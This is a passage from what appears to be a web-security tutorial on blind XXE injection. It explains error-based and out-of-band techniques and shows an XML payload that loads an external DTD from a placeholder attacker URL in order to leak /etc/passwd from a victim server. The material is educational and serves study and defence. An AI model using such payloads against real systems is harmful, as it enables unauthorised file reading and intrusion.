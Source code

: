 Sometimes, an XXE injection can be found, but the app doesn't return the values of any defined external entities within its responses. It's called a blind XXE.

There are two ways to find & exploit a blind XXE : 

* XML parsing errors can be triggered so that sensitive data is included in the error messages.
* Out-of-band network interactions can be initiated, sometimes leaking sensitive data into the interaction data such as[ SSRF attacks](#conduct-an-ssrf-attack).

#### Blind XXE via error messages

It is possible to perform a blind XXE by triggering an XML parsing error where the error message contains the sensitive data that needs to be retrieved.

An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows :

```xml
 <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ATTACKER-DTD-URL"> %xxe;]>
```

Then, on a victim server, the attacker can submit this payload to get access to the `/etc/passwd` file:

![](<./assets/ERROR-BASED-BLIND-XXE.png>)
